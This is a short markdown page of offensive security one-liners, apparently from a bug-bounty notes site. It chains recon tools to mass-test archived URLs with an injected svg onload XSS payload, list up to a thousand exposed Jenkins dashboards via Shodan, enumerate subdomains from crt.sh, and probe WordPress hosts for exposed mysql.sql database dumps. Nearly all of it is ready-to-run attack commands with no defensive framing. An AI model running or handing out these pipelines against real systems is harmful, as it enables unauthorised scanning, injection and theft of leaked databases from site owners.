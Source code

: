 ```yaml
---
title: OneLiners
icon: fas fa-info-circle
order: 3
---
```


###Mass XSS via wayback machine
``gau http://target.com | uro | bhedak '"><svg onload=confirm(1)>' | airixss -payload "confirm(1)" | egrep -v 'Not'``
```gau google.com | egrep -iv ".(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|icon|pdf|svg|txt|js)" | uro | bhedak '"><svg onload=confirm(1)>' | airixss -payload "confirm(1)" | egrep -v 'Not'```


###Mass IPs listing Via Shodan
```shodan search --limit 1000 'http.title:"Dashboard [Jenkins]"' | awk  '{print $1,":"$2}' | sed 's/ //' | httpx -silent | tee /root/Desktop/shodan.txt```


###Subdomain from crt.sh
```curl -s "https://crt.sh/?q=%25.target.com&output=json" | jq -r '.[].name_value' | tee /root/Desktop/crt.txt```

###wordpress mysql 
```sublist3r -d target.com | httpx -silent -path "/wp-content/mysql.sql" -mc 200 -t 250 -ports 80,443,8080,8443```

